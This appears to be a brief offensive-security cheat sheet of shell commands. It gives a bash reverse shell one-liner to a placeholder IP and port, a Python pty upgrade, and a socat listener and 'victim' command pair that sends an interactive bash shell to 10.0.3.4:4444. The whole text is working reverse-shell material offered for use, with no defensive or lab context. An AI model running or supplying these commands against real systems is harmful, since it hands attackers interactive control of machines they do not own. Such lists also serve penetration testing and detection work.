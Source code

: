 ## Bash reverse shell

     bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'

## Upgrade simple shell to tty

**Python method**

    python -c 'import pty;pty.spawn("/bin/bash")';

**socat method**

#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
